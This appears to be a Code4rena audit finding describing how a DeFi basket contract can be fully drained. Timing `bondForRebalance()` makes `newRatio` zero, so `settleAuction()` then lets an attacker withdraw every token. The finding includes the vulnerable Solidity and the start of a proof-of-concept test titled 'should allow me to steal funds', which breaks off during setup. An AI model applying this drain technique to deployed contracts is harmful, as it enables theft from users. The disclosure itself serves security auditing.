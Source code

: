 ## [[M-06] Basket can be fully drained if the auction is settled within a specific block](https://github.com/code-423n4/2021-12-defiprotocol-findings/issues/74)
_Submitted by Ruhum_

The `settleAuction()` function allows someone to settle the auction by transferring funds in a way that the new pending index is fulfilled. As a reward, they are able to take out as many tokens as they want as long as the pending index is fulfilled after that. The function verifies that the basket has received everything it wanted using the following logic:

```sol
        for (uint256 i = 0; i < pendingWeights.length; i++) {
            uint256 tokensNeeded = basketAsERC20.totalSupply() * pendingWeights[i] * newRatio / BASE / BASE;
            require(IERC20(pendingTokens[i]).balanceOf(address(basket)) >= tokensNeeded);
        }
```

The attack vector here is to manipulate `tokensNeeded` to be 0. That way we can drain the basket completely without the function reverting.

For that, we manipulate `newRatio` to be 0 then the whole thing will be 0.
`newRatio` is defined as:

```sol
        uint256 a = factory.auctionMultiplier() * basket.ibRatio();
        uint256 b = (bondBlock - auctionStart) * BASE / factory.auctionDecrement();
        uint256 newRatio = a - b;
```

There's 1 value the attacker controls, `bondBlock`. That value is the block in which the `bondForRebalance()` function was triggered.
So the goal is to get `newRatio` to be 0. With the base settings of the contract:

*   auctionMultiplier == 2
*   ibRatio == 1e18
*   BASE == 1e18
*   auctionDecrement == 10000

`bondBlock` has to be `auctionStart + 20000`. Meaning, the `bondForRebalance()` function has to be triggered exactly 20000 blocks after the action was started. That would be around 3 1/2 days after auction start.

At that point, `newRatio` is 0, and thus `tokensNeeded` is 0. The only thing left to do is to call `settleAuction()` and pass the basket's tokens and balance as the output tokens and weight.

### Proof of Concept

Here's a test implementing the above scenario as a test. You can add it to `Auction.test.js`.:

```js
      it.only("should allow me to steal funds", async() => {
        // start an auction
        let NEW_UNI_WEIGHT = "2400000000000000000";
        let NEW_COMP_WEIGHT = "2000000000000000000";
        let NEW_AAVE_WEIGHT = "400000000000000000";

        await expect(basket.publishNewIndex([UNI.address, COMP.address, AAVE.address], 
            [NEW_UNI_WEIGHT, NEW_COMP_WEIGHT, NEW_AAVE_WEIGHT], 1)).to.be.ok;
        await increaseTime(60 * 60 * 24)
        await increaseTime(60 * 60 * 24)
        await expect(basket.publishNewIndex([UNI.address, COMP.address, AAVE.address], 
          [NEW_UNI_WEIGHT, NEW_COMP_WEIGHT, NEW_AAVE_WEIGHT], 1)).to.be.ok;

        let auctionAddr = await basket.auction();
        let auction = AuctionImpl.attach(auctionAddr);

        ethers.provider.getBlockNumber();
```